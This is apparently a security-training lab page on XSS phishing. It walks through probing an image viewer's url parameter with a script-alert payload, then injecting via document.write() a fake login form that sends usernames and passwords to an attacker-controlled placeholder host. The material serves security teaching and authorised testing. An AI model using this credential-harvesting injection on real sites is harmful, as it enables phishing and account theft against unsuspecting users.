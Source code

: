 Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization’s employees, especially if they trust the vulnerable web application and do not expect it to harm them.

---

### XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing`. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it will display it:

```
http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg
```

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we’ve been using:

```
http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>
```

But when we try that payload, nothing gets executed and we get a dead image icon. This means `<script>` tags might be blocked, so we need to use other techniques.

---

### Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we’d get their credentials.

We can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
  <input type="username" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="submit" name="submit" value="Login">
</form>
```

We can now minify our HTML code and use the `document.write()` function to inject it using our XSS payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')
```

We then URL-encode this and inject it into the image viewer as the `url` parameter.

---